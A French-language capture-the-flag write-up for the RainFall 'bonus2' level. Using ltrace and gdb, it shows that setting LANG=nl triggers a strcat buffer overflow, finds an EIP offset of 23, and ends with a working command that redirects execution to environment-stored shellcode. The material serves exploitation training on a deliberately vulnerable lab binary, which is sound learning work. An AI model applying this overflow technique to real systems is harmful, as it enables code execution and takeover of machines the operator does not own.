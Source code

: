 On trouve un executable qui demande deux arguments pour afficher 
"Hello" + " " + "argv[1]".

Surement un login / mot de passe.

En essayant de faire segfault le programme et via https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/ on ne trouve pas d'offset.

ltrace ./bonus2 salut felix
__libc_start_main(0x8048529, 3, 0xbffff6d4, 0x8048640, 0x80486b0 <unfinished ...>
strncpy(0xbffff5d0, "salut", 40)                 = 0xbffff5d0
strncpy(0xbffff5f8, "felix", 32)                 = 0xbffff5f8
getenv("LANG")                                   = "en_US.UTF-8"
memcmp(0xbfffff16, 0x804873d, 2, 0xb7fff918, 0)  = -1
memcmp(0xbfffff16, 0x8048740, 2, 0xb7fff918, 0)  = -1
strcat("Hello ", "salut")                        = "Hello salut"
puts("Hello salut"Hello salut
)                              = 12

On voit avec ltrace qu'il y a 2 strncpy avec les deux arguments, puis un appel 
getenv("LANG") , puis deux memcmp, et enfin strcat et puts.

   0x0804859f <+118>:	movl   $0x8048738,(%esp)
   0x080485a6 <+125>:	call   0x8048380 <getenv@plt>

(gdb) x/s0x8048738
0x8048738:	 "LANG"

    0x080485c4 <+155>:	movl   $0x804873d,0x4(%esp)

(gdb) x/s 0x804873d
0x804873d:	 "fi"

0x080485f3 <+202>:	movl   $0x8048740,0x4(%esp)
    (gdb) x/s 0x804873d 
0x804873d:	 "fi"


On se rends compte que les memcmp compare la value de getenv avec "nl" et "fi"

on va changer la variable d'env LANG

export LANG=nl

On relance le programme :

bonus2@RainFall:~$ ./bonus2 salut felix
Goedemiddag! salut

On voit un changement ! 

Reesayons les patterns pour voir si ca change et que ca segfault toujours:

EIP Value: 0x38614137

Offset:23

On trouve un offset sur EIP !! Plus qu'a tomber sur l'adresse du shellcode comme dans d'autres level ! 

Le programme segfault car strcat essaye de concatenner 72 byte du buffer du main dans les 64 du buffer greetuser ! 

payload :

"40char min remplir le premier buffer" + "offset 23" + "adresse env shellcode"



./bonus2 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6A $(python -c 'print "A"*23 + "\x31\xf8\xff\xbf"')